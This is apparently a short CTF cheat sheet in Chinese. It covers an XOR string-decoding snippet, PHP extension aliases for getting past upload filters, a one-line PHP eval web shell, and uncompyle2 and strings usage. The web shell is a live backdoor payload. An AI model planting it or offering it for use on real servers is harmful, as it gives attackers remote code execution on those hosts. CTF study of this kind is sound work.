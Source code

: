 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
## 一句话木马
```php
<?php @eval($_POST['chopper']);?>
```
## uncompyle2 用法
```bash
py -2 uncompyle2 -o as.py as.pyc
```
## Strings 用法
`strings brave | grep -i key #-i 忽略大小写`
## 佛经解密
[佛经](http://keyfc.net/bbs/tools/tudoucode.aspx)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk4NDAzNTQ5OSwtMjAxMTE3MDg4MSwxNj
A2Mjg0MjUsLTE0MTA2ODY2MzcsMzM1NTgwODA4XX0=
-->
